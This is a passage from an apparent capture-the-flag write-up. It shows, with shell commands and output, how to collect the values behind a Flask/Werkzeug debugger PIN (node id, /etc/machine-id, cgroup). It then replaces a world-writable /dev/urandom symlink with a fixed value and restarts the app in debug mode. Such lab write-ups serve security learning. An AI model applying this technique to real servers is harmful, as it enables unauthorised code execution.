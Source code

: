 Since we have a shell, we can also simply run the same python command as in the werkzeug script.

```plain
$ python3 -c "import uuid;print(str(uuid.getnode()))"
2485377892354
```

Our first private element is `2485377892354`.

For the second part, still following the hacktricks method or simply reading the source code, we look for the content of the `/etc/machine-id` and `/proc/self/cgroup` files.

```plain
$ cat /etc/machine-id
49bab8e92cca463691a8b330fc54cc89
$ cat /proc/self/cgroup
0::/
```

Since there is nothing after the second file's forward slash, our second private element is `49bab8e92cca463691a8b330fc54cc89`.

Finally the third part, that is our dear flaskdev's addition.

```python
open("/var/www/config/urandom", "rb").read(16)
```

This will read 16 bytes from `/var/www/config/urandom`.

```plain
$ ls -l /var/www/config/urandom
lrwxrwxrwx 1 root root 12 Apr 12 12:51 /var/www/config/urandom -> /dev/urandom
```

One look at it will tell us that it's a symlink to `/dev/urandom` that is linux's random number generator. There is no way to predict what were the 16 bytes present at the beginning of the file when the app was launched, since the content of this special file is constantly changing.

Fortunately for us, the folder `/var/www/config` is world writable. We can simply remove the symlink and replace it with a file that contains a fixed value controlled by us.

```plain
$ rm /var/www/config/urandom
$ echo "0000000000000000" > /var/www/config/urandom
```

Let's restart the app with the knowledge we acquired earlier when analysing the `reboot_flask.sh` script. We have to run the app on a different port, since 5000 is already in use.

```plain
$ /usr/bin/python3 /var/www/dev/app.py --port 9999
 * Serving Flask app 'app'
 * Debug mode: on
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:9999
```
